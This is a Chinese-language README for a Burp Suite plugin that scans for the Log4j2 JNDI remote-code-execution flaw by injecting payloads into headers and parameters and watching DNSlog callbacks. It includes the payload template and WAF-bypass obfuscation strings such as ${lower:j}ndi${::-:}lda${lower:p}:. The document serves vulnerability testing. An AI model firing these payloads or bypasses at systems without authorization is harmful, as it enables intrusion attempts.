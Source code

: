 # 本工具仅为企业测试漏洞使用，严禁他人使用本工具攻击
本插件基于 https://github.com/f0ng/log4j2burpscanner/ 进行改造，在此感谢f0ng师傅在本项目上做出的贡献。

## 如何食用？
### dns_mothed
本插件支持3个dns平台：
	https://dns.xn--9tr.com/(默认使用)
	http://ceye.io/
	http://www.dnslog.cn/(由于延迟较高不建议使用)
本插件支持自定义dns平台

### log4j2burpscanner.properties
插件第一次运行时，会在burp目录下创建log4j2burpscanner.properties配置文件。其中的各项含义如下：
log_method=0		默认使用第0个dns平台

passivepattern=false		配合burp自带的被动扫描功能，默认关闭

ceyetoken=xxxxxx		ceye.io的用户token

ceyednslog=xxxx.ceye.io	ceye.io的用户dns地址

privatedns=xxxxxx		用户自定义dns地址

isuseUserAgentTokenXff=true	是否测试请求中的UA头/token头

isuseXfflists=false		是否测试Xff(X-forwarded-for)等请求头

isuseAllCookie=true		是否测试cookie

isuseRefererOrigin=false	是否测试Referer

isuseContenttype=false	是否测试Content-type

isuseAccept=false		是否测试useAccept

custom_dnslog_protocol=jndi:ldap:	ayload中"jndi:ladp:"的位置字段，可以自定义"jndi:"的bypass方式,例如输入${lower:j}ndi${::-:}lda${lower:p}:

dnslog_protocol_index=1		payload中"jndi:ladp:"的位置字段的一些默认提供项，设置为0就可使用上一项自定义的custom_dnslog_protocol，设置8为最强bypass

whitelists=*.gov.cn *.edu.cn	不进行测试的host名单

customlists=X-Client-IP X-Requested-With X-Api-Version	需要额外添加并测试的请求头，用空格分隔

config中有save configuration，load configuration，test dnslog三个按钮，分别用于保存当前设定的properties，加载properties文件和测试当前选择的dns平台是否可用。


### output
插件加载完成后，应当出现如下字样
[+]               load successful!           
[+]        log4j2burpscanner v0.22.funny       
[+] https://github.com/f0ng/log4j2burpscanner
[+]                 recode by funnyndk            
[+]using log.xn--9tr.com now!
[+]dns address : 7f124f45.dns.1433.eu.org
[+]dns token : r3ewux4bob98
[+]You also can request to    https://log.xn--9tr.com/r3ewux4bob98    to see dnslog
其中dns address为payload中请求的域名，https://log.xn--9tr.com/r3ewux4bob98可以人为查看解析记录

### menu
对请求包右键的菜单栏中，新增了"Send to log4j2 Scanner"选项，点击后将对包进行注入改造并且测试。完成dns询问后，会在log4j2 RCE栏中展示恶意请求和结果等等

### payload
真正的payload格式如下
"${"+jndiparam+dnsldaprmi+"//"+random+"."+chosen_dnslog+"}"
pyload将根据设定和请求类型，注入所有的请求头或GET参数或POST参数中(存在特殊情况无法识别)


##FAQ
Q：为什么安装插件失败，提示java.lang.ClassFoundException: burp.BurpExtender
A：请使用jdk1.8，本插件开发环境为jdk1.8，测试环境为Burp Suite Pro 1.7.31。如果已使用jdk1.8，请更新jdk小版本。开发机版本为jdk1.8.0_291，请至少与之一致，

Q：为什么点了"Send to log4j2 Scanner"选项，log4j2 RCE栏中没有出结果
A：由于网络延迟，扫描可能较慢。或是请求包出现问题，没有相应返回，请检查是否被防火墙等设备封禁。

Q：为什么加载插件显示"load ERROR"
A：一般由于选择的dns平台无法正常访问，也有可能配置文件出现异常。

##dev or update note
/*
* 0.19.funny dev note
* 20220617 dev list
*   add a "dnslog.cn" dnslog platfrom chocie            done!
*   make it to a slowly passively auto-detection
*   more methods to bypass                              update continually...
*   more position in request to inject log4j2 payload   done!
* 20220623 dev list
*   fix the code bug                                    done!
*   test all program fuction                            done!
*/
/*
* 0.20.funny update note
* 20220629 update list 
*   fix the bug - cant send request without response to log4j2 scanner
*   update the feature - log4j2 scanner will show the records even though of which the request doesnt get a response
*/
/*
* 0.21.funny update note
* 20220704 update list 
*   update the feature - change how the plugin modifies custom_dnslog_protocol
* 
*/
/*
* 0.22.funny update note
* 20220801 update list
*   optimize the code - use "Abstract Factory" to dnslog platforms list, make it more easy to maintain current platforms or increase a new one
*   update the feature - add a random bypass mode like j => ${"random_str":"random_str":"random_str"... - j}
*   update the feature - support privatedns mode
*/
